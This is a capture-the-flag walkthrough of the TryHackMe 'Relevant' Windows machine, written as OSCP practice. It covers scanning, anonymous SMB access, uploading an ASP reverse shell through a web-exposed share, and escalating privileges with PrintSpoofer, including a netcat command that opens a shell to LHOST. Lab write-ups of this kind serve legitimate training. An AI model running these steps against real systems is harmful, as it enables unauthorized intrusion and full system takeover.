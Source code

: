 ```yaml
---
title: TryHackMe | Relevant Writeup
categories: [pentesting]
tags: [tryhackme, oscp, smb]
---
```


# TryHackMe | Relevant Writeup (No Metasploit)

## Approach
As I am working towards obtaining the OSCP, I will avoid using automatic exploitation tools such as Metasploit or SQLMap.
<br>
The difficulty of this machine is <span style="color:limegreen">easy</span>.

As I first look into the page, the only thing I see is an IIS Windows Server image, with nothing else in the code, so I started by conducting a port scan using Nmap

```console
nmap -sC -sV -p- Target_IP -oN relevant.nmap
```

Meanwhile, I ran GoBuster with Seclists' web-content wordlist to find interesting directories.

```console
gobuster dir -u Target_IP -w /usr/share/wordlists/seclist/Discovery/Web-Content/big.txt
```

While GoBuster was running, I examined the Nmap results

```console
Host is up (0.017s latency).
Not shown: 65526 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-06-26T16:22:35
|_Not valid after:  2023-12-26T16:22:35
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2023-06-27T16:42:47+00:00
|_ssl-date: 2023-06-27T16:43:28+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:93:A8:71:61:09 (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-27T09:42:47-07:00
|_nbstat: NetBIOS name: RELEVANT, NetBIOS user: <unknown>, NetBIOS MAC: 0293a8716109 (unknown)
| smb2-time: 
|   date: 2023-06-27T16:42:47
|_  start_date: 2023-06-27T16:22:53
|_clock-skew: mean: 1h23m59s, deviation: 3h07m50s, median: 0s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

We saw that the machine is running SMB, so let's enumerate it.

![SMB enum result 1](/assets/posts/relevant/1.png)

We see a share called "nt4wrksv", we can try to log in anonimously

![SMB enum result 2](/assets/posts/relevant/2.png)

There is an interesting file there, we download it so we can have it handy. Let's take a look at its content.

![passwords.txt content](/assets/posts/relevant/3.png)

The file contains two encoded user passwords, and we see that they are encoded using base64 at a glance. We could decode them using the console, but I prefer using CyberChef.

![passwords.txt content decoded](/assets/posts/relevant/4.png)

And here we have it, the passwords for users Bob and Bill.
After obtaining these credentials, I tried to log in to SMB and SSH and it didn't work.

![psexec 1](/assets/posts/relevant/5.png)
![psexec 2](/assets/posts/relevant/6.png)

However, using psexec, we can determine that the user Bill does not even exist, and Bob is but the password is wrong.
Here comes the only challenge of this machine: it is a rabbit hole, as it provides you with fake credentials that have no use at all. So what can we do now?
The GoBuster scan we did at the start didn't find a single directory, so now we can do a couple things: look for vulnerabilities in the services or continue enumerating them.

The thing is, both methods can result in compromising the machine. For now, I will focus on SMB exploitation, because the other options is to use EternalBlue and it's not the objective of this room.

## SMB Exploitation
Let's go for the easy one first. We saw that using GoBuster directly on the main page (port 80) didn't get us any results, but we can enumerate the IIS webserver (port 49663).
<br>
We have found that there is a directory with the name "**nt4wrksv**", just like the SMB share we used to enum. When accessing the link we get a blank page but no errors, so we can try to path traversal to check if we can see the contents of the **passwords.txt** file that was in the share.

![nt4wrksv passwords.txt](/assets/posts/relevant/7.png)

And yes, we can view the file. Now we have access to a SMB share which can be accessed through browser, so let's craft our ASP reverse shell and stablish initial access to the machine.

![put reverse shell](/assets/posts/relevant/8.png)
![shell stablished](/assets/posts/relevant/9.png)

Now we have a shell and list the users to get the first flag.
![User flag](/assets/posts/relevant/10.png)

### Privilege escalation
First we check for exploitable tokens
```bash
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We have the **SeImpersonatePrivilege** token enabled, so no big deal to gain root acess. To do this we will upload PrintSpoofer and a netcat binary. Once we have both uploaded, we start another listener and run PrintSpoofer. You should get a bind shell with this command
```PrintSpoofer.exe -c “c:\inetpub\wwwroot\nt4wrksv\nc.exe LHOST LPORT -e cmd”```, but because we just need to check one flag and nothing else I decided to invoke a SYSTEM shell on the same session with ```PrintSpoofer.exe -i -c cmd```.

![Root flag](/assets/posts/relevant/11.png)

Finally we get the root flag.